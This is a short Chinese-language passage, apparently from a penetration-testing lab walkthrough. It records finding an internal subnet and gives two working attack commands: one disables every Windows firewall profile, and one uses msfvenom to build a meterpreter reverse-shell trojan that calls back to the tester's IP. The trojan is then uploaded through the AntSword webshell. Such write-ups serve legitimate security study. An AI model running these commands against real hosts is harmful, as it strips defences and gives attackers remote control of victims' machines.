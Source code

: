 发现内网网段192.168.52.0/24



关闭主机防火墙

```
netsh advfirewall set allprofiles state off
```

![image-20250405223744030](./assets/image-20250405223744030.png)





msf上线

msfvenom生成远控木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.3 lport=283 -f exe -o ra1n3.exe
```

![image-20250406005210017](./assets/image-20250406005210017.png)

通过蚁剑上传

![image-20250406005236433](./assets/image-20250406005236433.png)
